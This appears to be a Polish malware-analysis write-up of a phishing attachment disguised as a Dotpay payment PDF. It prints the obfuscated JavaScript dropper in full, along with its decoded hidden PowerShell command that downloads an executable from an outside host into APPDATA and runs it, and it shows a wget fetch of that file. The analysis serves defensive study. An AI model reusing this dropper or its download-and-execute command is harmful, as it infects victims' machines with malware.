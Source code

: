 System: Linux / Bash / Python 3

## Email

(zrzut ekranu: Alt+PrintScreen)

![#1](images/screenshot.png?raw=true)   

## Sprawdzenie typu pliku z załącznika

```bash
$ file Platnosc_w_systemie_Dotpay_M6694-5134_PDF.z 
```
```
Platnosc_w_systemie_Dotpay_M6694-5134_PDF.z: RAR archive data, v1d, os: Win32
```

## Ręczne rozkompresowanie załącznika

```bash
$ unrar e Platnosc_w_systemie_Dotpay_M6694-5134_PDF.z
```

## Uruchomienie skryptu

```bash
$ python main.py Płatnosc_w_systemie_Dotpay_M6694-5134_PDF.js
```
```
--- wczytane z pliku (jako Unicode)---

var _0xc9a5=["shell.application","powershell.exe","powershell.ex
e -ExecutionPolicy bypass -noprofile -windowstyle hidden -Encode
dCommand UABvAHcAZQByAFMAaABlAGwAbAAgAC0ARQB4AGUAYwB1AHQAaQBvAG4
AUABvAGwAaQBjAHkAIABiAHkAcABhAHMAcwAgAC0AbgBvAHAAcgBvAGYAaQBsAGU
AIAAtAHcAaQBuAGQAbwB3AHMAdAB5AGwAZQAgAGgAaQBkAGQAZQBuACAALQBjAG8
AbQBtAGEAbgBkACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0
ALgBOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQ
ARgBpAGwAZQAoACcAaAB0AHQAcAA6AC8ALwB0AGUAbgBvAHIALgBjAG8AbQAuAHA
AbAAvAHAAbABpAGsAaQAvAGIAaQBuAHMAdAB4AHQALgBlAHgAZQAnACwAHSAkAGU
AbgB2ADoAQQBQAFAARABBAFQAQQBcAGIAaQBuAHMALgBlAHgAZQAdICkAOwBTAHQ
AYQByAHQALQBQAHIAbwBjAGUAcwBzACAAKAAdICQAZQBuAHYAOgBBAFAAUABEAEE
AVABBAFwAYgBpAG4AcwAuAGUAeABlAB0gKQA=","C:\Windows\system32\Wind
owsPowerShell\v1.0","open","1"];var RzSdcVPN= new ActiveXObject(
_0xc9a5[0]);RzSdcVPN.ShellExecute(_0xc9a5[1],_0xc9a5[2],_0xc9a5[
3],_0xc9a5[4],_0xc9a5[5]) 

--- wycinek po "-EncodedCommand" ---

UABvAHcAZQByAFMAaABlAGwAbAAgAC0ARQB4AGUAYwB1AHQAaQBvAG4AUABvAGwA
aQBjAHkAIABiAHkAcABhAHMAcwAgAC0AbgBvAHAAcgBvAGYAaQBsAGUAIAAtAHcA
aQBuAGQAbwB3AHMAdAB5AGwAZQAgAGgAaQBkAGQAZQBuACAALQBjAG8AbQBtAGEA
bgBkACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUA
dAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQARgBpAGwA
ZQAoACcAaAB0AHQAcAA6AC8ALwB0AGUAbgBvAHIALgBjAG8AbQAuAHAAbAAvAHAA
bABpAGsAaQAvAGIAaQBuAHMAdAB4AHQALgBlAHgAZQAnACwAHSAkAGUAbgB2ADoA
QQBQAFAARABBAFQAQQBcAGIAaQBuAHMALgBlAHgAZQAdICkAOwBTAHQAYQByAHQA
LQBQAHIAbwBjAGUAcwBzACAAKAAdICQAZQBuAHYAOgBBAFAAUABEAEEAVABBAFwA
YgBpAG4AcwAuAGUAeABlAB0gKQA= 

--- decode base64 i utf16 ---

PowerShell -ExecutionPolicy bypass -noprofile -windowstyle hidde
n -command (New-Object System.Net.WebClient).DownloadFile('http:
//tenor.com.pl/pliki/binstxt.exe',”$env:APPDATA\bins.exe”);Start
-Process (”$env:APPDATA\bins.exe”) 
```

## Pobranie pliku z serwera

Po decodowaniu tekstu widać link do pliku na serwerze WWW więc można spróbować go ściągnąć

```bash
$ wget http://tenor.com.pl/pliki/binstxt.exe
```

Pliku już nie było na serwerze.
